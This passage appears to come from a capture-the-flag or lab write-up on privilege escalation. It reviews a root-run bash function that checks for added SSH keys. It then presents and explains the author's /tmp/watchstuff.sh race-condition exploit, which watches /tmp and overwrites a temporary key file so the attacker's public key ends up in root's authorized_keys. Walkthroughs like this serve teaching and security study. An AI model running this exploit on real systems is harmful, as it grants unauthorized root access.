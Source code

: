 Since we've finished `addKey` and the main function calls `checkAdded` next, let's _check_ that next ;)

```bash
checkAdded() {                                                                                                                                                
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)                                                                                                  
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then                                                                                  
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi                                                                                                                                                    
}
```

This one's pretty short and sweet - it checks the ending of the public key from the beginning to see if the username exists in the `authorized_keys` file. If it's there, then the program returns that the key was successfully added - otherwise it fails. You'll notice I skipped `checkFile` - it's a pretty boring piece of code that doesn't impact the exploit in any way, so I figured why waste time there? Feel free to learn what it does on your own, though!

Moving forward, there's not really any other vectors that I could come up with _other_ than the race condition - we have to create a program to hijack execution flow and insert our public key before the program sends it to root's `authorized_keys` file. Unfortunately for you and I, the program is necessary - I don't know about you but _I_ certainly can't out-speed a computer. Since this post is ending up on the longer side, I'll just show you my solution and explain it below.

```bash
#!/bin/bash

chksum1=$(ls /tmp/ | md5sum | cut -d' ' -f1);

while [[ true ]]; do
        chksum2=$(ls /tmp/ | md5sum | cut -d' ' -f1);
        if [[ "$chksum1" != "$chksum2" ]]; then
                fname=(*);
                echo "[YOUR SSH PUBLIC KEY HERE]" > "${fname[0]}";
        fi
done
```

Enter my script, `/tmp/watchstuff.sh`. Very technical naming convention, I know. Essentially it's a catch-all that I came up with when I noticed that the `ssh-XXXXXX` file was the _first_ file in the directory at all times; it catches and edits that file on the fly. I accomplish it in a few steps:

* First, the program takes a checksum of the `/tmp/` directory and stores it in a variable. The idea for this [came from this post](https://idiallo.com/blog/watching-folder-with-shell-script-bash) on how to watch a folder.
* Next, we enter an infinite loop - this is intentional. Inside the loop, it constantly takes the checksum of `/tmp` in a second variable.
* If at any point the checksums _don't_ match, the program finds the first file in `/tmp` (remember, this always equates to `ssh-XXXXX`) and overwrites it with my own public key.
